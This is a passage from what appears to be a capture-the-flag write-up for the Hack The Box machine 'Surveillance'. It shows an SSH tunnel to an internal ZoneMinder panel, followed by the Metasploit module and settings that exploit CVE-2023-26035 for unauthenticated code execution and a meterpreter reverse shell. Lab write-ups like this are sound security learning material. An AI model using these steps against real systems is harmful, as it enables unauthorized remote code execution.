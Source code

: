 
So knowing this i would open up an ssh tunnel to this port using the following command. After running this command the zoneminder application would be reachable from our localhost on port 4000

```
ssh -L 4000:127.0.0.1:8080 matthew@surveillance.htb
```

When we browse to this page we would get a login panel for zoneminder.

![Zonewinder page](/assets/img/Surveillance/Surveillance_08.png)


The most interesting exploit that i could found for zoneminder was [CVE-2023-26035](https://nvd.nist.gov/vuln/detail/CVE-2023-26035). Which allowed us to execute code throught the snapshots action which was missing authorization checks leading to unauthenticated RCE. This vulnerability is quite easy to exploit since there is a metasploit module for this. Use the following metasploit module

```
unix/webapp/zoneminder_snapshots
```

Then change the following parameters to make it work don't forget to change the targeturi since in this case the zoneminder application isn't  at /ZM/ which is the default

```
set rhosts 127.0.0.1
set rport 4000
set targeturi /
set lhost tun0
```

After setting all the parameters right do the exploit command to start exploiting the service. A few moments later we'd be greeted with a meterpreter shell
